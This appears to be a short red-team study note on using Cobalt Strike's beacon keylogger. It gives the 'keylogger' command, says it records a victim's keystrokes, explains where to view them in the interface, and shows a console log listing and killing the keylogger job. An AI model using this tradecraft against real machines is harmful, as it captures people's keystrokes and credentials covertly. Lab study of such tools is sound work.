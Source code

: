 command run:
`beacon> keylogger` 

notable information:
`records keystrokes of victim`

notes:
`to look at screenshots in cobaltstrike navigate to View > Keystrokes`

![[Pasted image 20231102181845.png]]
in order to stop the job 
```powershell
[11/02 22:17:59] beacon> jobs
[11/02 22:17:59] [*] Tasked beacon to list jobs
[11/02 22:17:59] [+] host called home, sent: 8 bytes
[11/02 22:17:59] [*] Jobs

 JID  PID   Description
 ---  ---   -----------
 3    0     keystroke logger
[11/02 22:18:04] beacon> jobkill 3
[11/02 22:18:04] [*] Tasked beacon to kill job 3
[11/02 22:18:04] [+] host called home, sent: 10 bytes
```